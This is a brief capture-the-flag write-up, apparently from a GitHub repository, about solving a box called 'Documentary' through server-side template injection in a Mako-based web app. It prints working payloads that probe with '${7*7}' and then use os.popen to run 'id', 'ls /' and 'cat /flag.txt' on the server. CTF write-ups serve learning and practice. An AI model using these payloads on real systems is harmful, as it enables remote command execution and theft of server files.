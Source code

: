 Pwning Documentary.

	1. Spawned the machine and downloaded the files.



	2. After inspecting the files I discovered that it’s a flutter website using mako. And opened the web browser and looked up the the box's Ip address.


	
	3. In the web I used "${7*7}" to see if it returned a result. It returned 49. the payload I used is "${self.template.module.cache.util.os.popen("id").read()}" and it returned some results.



	4. I altered the the payload a bit to by replacing "id" with "ls /"  "${self.template.module.cache.util.os.popen("ls /").read()}"



	5. I noticed that that there was a "flag.txt" so I altered the payload again from "ls /" to "cat /flag.txt" ."${self.template.module.cache.util.os.popen("cat /flag.txt").read()}" revealed the flag.



![image](https://github.com/user-attachments/assets/faa8e866-1c8f-43fd-aeae-3342545b8e7f)

